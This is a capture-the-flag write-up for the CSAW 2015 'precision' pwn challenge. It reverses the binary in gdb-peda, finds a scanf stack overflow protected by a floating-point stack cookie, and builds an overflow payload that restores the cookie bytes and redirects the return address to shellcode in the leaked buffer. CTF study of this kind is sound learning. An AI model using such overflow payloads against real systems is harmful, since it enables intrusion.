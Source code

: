 ```yaml
---
layout: post
title: CSAW15 PWN 100
tags: [ctf, pwn, write-up]
---
```


### Challenge: [precision](../ctfs/csaw15/pwn/precision-100/precision_a8f6f0590c177948fe06c76a1831e650)

### Reversing
I start by doing a quick `file` and `checksec`
```bash
$ file ./precision
precision: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped
$ checksec ./precision
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
I can see from the results of `checksec` that this 32-bit binary doesnt have any protections enabled. I run it once to see whats the binary doing.
```bash
$ ./precision
Buff: 0xffb40f28
AAAA
Got AAAA
```
When running the binary, it prints address of a buffer then it takes input. After sending input "AAAA\n", input gets printed back on the console and process terminates.
Considering we are dealing with a string echo here. I tried providing "%x\n" in the input.
```bash
$ ./precision
Buff: 0xffb40f28
%x
Got %x
```
So no format string vulnerability here. Then for the last black box test I provided a large string as input.
```bash
$ python -c 'print "A"*2000' | ./precision
Buff: 0xffa02b18
Nope
```
It didnt work either. Time to start real reversing.
Now opening binary in IDA makes it a little too easy so I will do it with gdb-peda `pdisass` to make it interesting.
```bash
gdb-peda$ pdisass main
Dump of assembler code for function main:
   0x0804851d <+0>:	push   ebp
   0x0804851e <+1>:	mov    ebp,esp
   0x08048520 <+3>:	and    esp,0xfffffff0
   0x08048523 <+6>:	sub    esp,0xa0
   0x08048529 <+12>:	fld    QWORD PTR ds:0x8048690
   0x0804852f <+18>:	fstp   QWORD PTR [esp+0x98] # cookie
   0x08048536 <+25>:	mov    eax,ds:0x804a040
   0x0804853b <+30>:	mov    DWORD PTR [esp+0xc],0x0
   0x08048543 <+38>:	mov    DWORD PTR [esp+0x8],0x2
   0x0804854b <+46>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048553 <+54>:	mov    DWORD PTR [esp],eax
   0x08048556 <+57>:	call   0x8048400 <setvbuf@plt>
   0x0804855b <+62>:	lea    eax,[esp+0x18] # Buff
   0x0804855f <+66>:	mov    DWORD PTR [esp+0x4],eax
   0x08048563 <+70>:	mov    DWORD PTR [esp],0x8048678
   0x0804856a <+77>:	call   0x80483b0 <printf@plt>
   0x0804856f <+82>:	lea    eax,[esp+0x18]
   0x08048573 <+86>:	mov    DWORD PTR [esp+0x4],eax
   0x08048577 <+90>:	mov    DWORD PTR [esp],0x8048682
   0x0804857e <+97>:	call   0x8048410 <__isoc99_scanf@plt>
   0x08048583 <+102>:	fld    QWORD PTR [esp+0x98]
   0x0804858a <+109>:	fld    QWORD PTR ds:0x8048690
   0x08048590 <+115>:	fucomip st,st(1)
   0x08048592 <+117>:	fstp   st(0)
   0x08048594 <+119>:	jp     0x80485a9 <main+140>
   0x08048596 <+121>:	fld    QWORD PTR [esp+0x98]
   0x0804859d <+128>:	fld    QWORD PTR ds:0x8048690
   0x080485a3 <+134>:	fucomip st,st(1)
   0x080485a5 <+136>:	fstp   st(0)
   0x080485a7 <+138>:	je     0x80485c1 <main+164>
   0x080485a9 <+140>:	mov    DWORD PTR [esp],0x8048685
   0x080485b0 <+147>:	call   0x80483c0 <puts@plt>
   0x080485b5 <+152>:	mov    DWORD PTR [esp],0x1
   0x080485bc <+159>:	call   0x80483e0 <exit@plt>
   0x080485c1 <+164>:	mov    eax,ds:0x804a030
   0x080485c6 <+169>:	lea    edx,[esp+0x18]
   0x080485ca <+173>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ce <+177>:	mov    DWORD PTR [esp],eax
   0x080485d1 <+180>:	call   0x80483b0 <printf@plt>
   0x080485d6 <+185>:	leave  
   0x080485d7 <+186>:	ret    
End of assembler dump.
gdb-peda$ 
```
After the function prologue I can see some interesting instructions (fld, fstp). These instructions are used for handling floating point values. In a summary we can say that it takes a floating point value from ds:0x8048690 and puts it in a local variable ([esp+0x98]). After this `stdout` is cleared from a typical `setvbuf` call. "Buff: 0xXXXXXXXX" gets printed on the console and `__isoc99_scanf` starts waiting for the input. Then it compares the value in local variable ([esp+0x98]) to ds:0x8048690 and it both values are not same it prints "Nope" and exits. But if the values are the same then it prints "Got *string_input*" and main returns. So clearly this custom logic is placed to have a check for buffer overflow vulnerable `__isoc99_scanf` function.

### Exploitation
To exploit buffer overflow in `__isoc99_scanf`, I first have to bypass custom stack cookie logic in place. For this I can just look up the 8 bytes (floating point values are represented by 8 bytes in memory) value on ds:0x8048690 and while overflowing the local variable (stack cookie) provide the same value.
```bash
gdb-peda$ x/gx 0x8048690
0x8048690:	0x40501555475a31a5
```
Now we can craft our simple stack based overflow payload. Offset between our Buff and cookie local variable is 0x80.

`"A"*0x80 + "\xa5\x31\x5a\x47" + "\x55\x15\x50\x40"`
I can add cyclic pattern from *gdb-peda* in above payload to determine offset to return address on stack, that is 12 here.
`"A"*0x80 + "\xa5\x31\x5a\x47" + "\x55\x15\x50\x40" + "B"*12 + "XXXX"`
Here I can replace return address "XXXX" to address of our input buffer (Buff) provided when running the binary. And start of the payload buffer have be converted into a shellcode that will give us a shell.
This pwntools [script](../ctfs/csaw15/pwn/precision-100/sploit.py) will be doing all thing automated for us.
